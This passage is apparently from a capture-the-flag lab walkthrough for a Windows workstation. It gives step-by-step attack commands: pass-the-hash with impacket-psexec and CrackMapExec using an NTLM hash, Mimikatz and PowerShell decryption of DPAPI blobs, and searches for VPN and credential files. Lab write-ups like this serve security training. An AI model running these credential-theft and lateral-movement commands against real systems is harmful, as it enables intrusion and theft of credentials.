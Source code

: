 **FLAG{V***************2}** - In DebugPrivileges registry

### Step 6.3: Pass-the-Hash from Workstation

```bash
# Using extracted NTLM hashes
impacket-psexec -hashes :5835048ce94ad0564e29a924a03510ef localadmin@$TARGET_WS

# CrackMapExec PTH
crackmapexec smb $TARGET_WS -u localadmin -H 5835048ce94ad0564e29a924a03510ef --local-auth

# Access Administrator desktop
cmd.exe
type C:\Users\Administrator\Desktop\pth_workstation_flag.txt
```

**FLAG{B***************0}** - After successful PTH

### Step 6.4: DPAPI Decryption

```powershell
# Find DPAPI encrypted files
Get-ChildItem -Path C:\ -Recurse -Include "*.bin","*.blob" -ErrorAction SilentlyContinue

# Found: C:\Users\Public\Documents\dpapi_flag.bin

# Using Mimikatz
mimikatz # sekurlsa::dpapi
mimikatz # dpapi::blob /in:C:\Users\Public\Documents\dpapi_flag.bin

# Alternative: PowerShell (if same user context)
$encrypted = [System.IO.File]::ReadAllBytes("C:\Users\Public\Documents\dpapi_flag.bin")
$decrypted = [System.Security.Cryptography.ProtectedData]::Unprotect($encrypted, $null, 'CurrentUser')
[System.Text.Encoding]::UTF8.GetString($decrypted)
```

**FLAG{T***************3}** - From DPAPI blob

## Phase 7: Workstation-Specific Vectors

### Step 7.1: VPN Configuration

```powershell
# Search for VPN configs
Get-ChildItem -Path C:\ -Recurse -Include "*vpn*","*.ovpn","*.pcf" -ErrorAction SilentlyContinue
rasphone -f
Get-VpnConnection

# Check credentials folder
type C:\Users\Public\Documents\Credentials\vpn.txt
```

**FLAG{D***************9}** - In VPN configuration
